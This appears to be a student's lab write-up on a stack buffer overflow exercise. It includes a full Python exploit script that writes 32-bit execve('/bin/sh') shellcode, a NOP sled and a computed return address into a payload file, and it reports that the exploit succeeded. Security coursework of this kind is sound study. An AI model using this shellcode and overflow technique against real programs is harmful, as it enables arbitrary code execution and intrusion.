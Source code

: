 # Task 1

![alt text](img/Screenshot%202022-10-13%20at%2011.42.04.JPG)
32 bit shellcode

![alt text](img/Screenshot%202022-10-13%20at%2011.36.54.JPG)
64 bit shellcode

Both versions open a shell where we can use some commands.

# Task 2

![alt text](img/Screenshot%202022-10-13%20at%2012.15.48.JPG)

After creating a `badfile` with a length of 517 (we just copied the contents of `exploit.py` for ease of use), the program creates a buffer overflow.

![alt text](img/Screenshot%202022-10-13%20at%2015.45.35.JPG)

The values of the ebp and buffer address.

# Task 3

As we used the stack-L1, and this program was compiled in 32 bits, we used the value 32 bit shellcode in call_shellcode.c.

To fill the buffer with the maximum possible number of `NOP` values, we placed the start value at `517 - len(shellcode)`, as the buffer can take 517 bytes and we still leave space for the shellcode.

![alt text](img/Screenshot%202022-10-13%20at%2016.05.28.JPG)

The return variable used was the `ebp` in adition to the number `0x103`, as it should have a value between the address and the maximum possible number, 517.
The offset used was the `ebp` - buffer address + 4 bytes, as it'sa 32 bit architecture.

![alt text](img/Screenshot%202022-10-13%20at%2016.20.09.JPG)

Exploit ran successfully.

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 0x103           # Change this number 
offset = 0xffffcb18 - 0xffffcaac + 4              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

exploit.py code

# CTF

## Desafio 1

![alt text](img/Screenshot_2022-10-18_at_09.05.39.png)
